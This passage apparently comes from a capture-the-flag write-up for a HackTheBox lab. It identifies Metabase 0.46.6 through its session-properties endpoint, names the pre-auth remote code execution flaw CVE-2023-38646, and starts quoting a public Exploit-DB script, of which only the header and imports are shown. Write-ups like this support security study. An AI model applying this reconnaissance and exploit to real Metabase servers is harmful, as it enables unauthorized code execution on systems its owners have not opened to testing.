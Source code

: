 Visiting that url revealed a metabase URL. I had past experience working with metabase. Its a tool to visualize the data. And it's version can be found here "http://data.analytical.htb/api/session/properties"

![](images/Pasted%20image%2020240320014526.png)

The Version of the Metabase is 0.46.6. 

## Exploit

The version of the metabase is vulnerable with **CVE-2023-38646** (Metabase Pre-Auth RCE). I found this github repo https://www.exploit-db.com/exploits/51797 to exploit this.

```python
# Exploit Title: metabase 0.46.6 - Pre-Auth Remote Code Execution
# Google Dork: N/A
# Date: 13-10-2023
# Exploit Author: Musyoka Ian
# Vendor Homepage: https://www.metabase.com/
# Software Link: https://www.metabase.com/
# Version: metabase 0.46.6
# Tested on: Ubuntu 22.04, metabase 0.46.6
# CVE : CVE-2023-38646

#!/usr/bin/env python3

import socket
from http.server import HTTPServer, BaseHTTPRequestHandler
from typing import Any
import requests
from socketserver import ThreadingMixIn
import threading
import sys
import argparse
from termcolor import colored
from cmd import Cmd
import re
from base64 import b64decode
```